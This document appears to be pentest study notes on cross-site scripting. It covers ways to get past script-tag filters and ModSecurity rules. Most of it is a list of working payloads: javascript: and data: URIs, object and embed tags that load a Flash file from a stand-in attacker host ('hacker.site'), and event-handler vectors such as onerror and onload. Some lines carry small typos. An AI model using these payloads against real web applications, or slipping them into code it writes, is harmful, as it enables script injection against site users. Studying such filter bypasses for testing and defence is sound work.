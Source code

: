 ### Bypassing Weak script Tag Banning
```js
- Upper and Lower-case characters
- Upper and Lower-case without closing tag
- Random string after the tag name
- Newline after the tag name
- Nested tags
- NULL byte (IE up to v9)
# examples in images
```

## ModSecurity > Script Tag Based XSS Vectors Rule
There are several alternatives in which its possible to run our code, such as different HTML tags and related event handlers.

### Beyond script Tag... Using HTML Attributes
```js
<a href="javascript:alert(1)">show</a>
<a href="data:text/html;base64,<alert(1) encoded>"show</a>
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data="javascript:alert(1)">
<object data="data:text/html;base64, <alert(1) encoded>">

# https://github.com/evilcos/xss.swf
<object data="//hacker.site/xss.swf">
<embed code="//hacker.site/xss.swf" allowscriptaccess=always>
```

### Beyond script Tag... Using HTML Events
- Events are they way that HTML DOM adds interactivity between the website and its visitors; This happens simply by executing the client-side code (e.g, JavaScript)

Almost all event handler identifier start with **on** and are followerd by the name of the event. One of the most used is **onerror**:
```js
<img src=x onerror=alert(1)>
```

→ but, there are maybe other events: http://help.dottoro.com/lhwfcplu.php

Examples:
```js
<body onload=alert(1)>
<input type=image src=x:x onerror=alert(1)>
<isindex onmouseover="alert(1)" >
<form oninput=alert(1)><input></form>
<texarea autofocus onfocus=alert(1)>
<input oncut=alert(1)>
<svg onload=alert(1)>
<keygen autofocus onfocus=alert(1)">
<video><source onerror="alert(1)">
<marquee onstart=alert(1)>
```

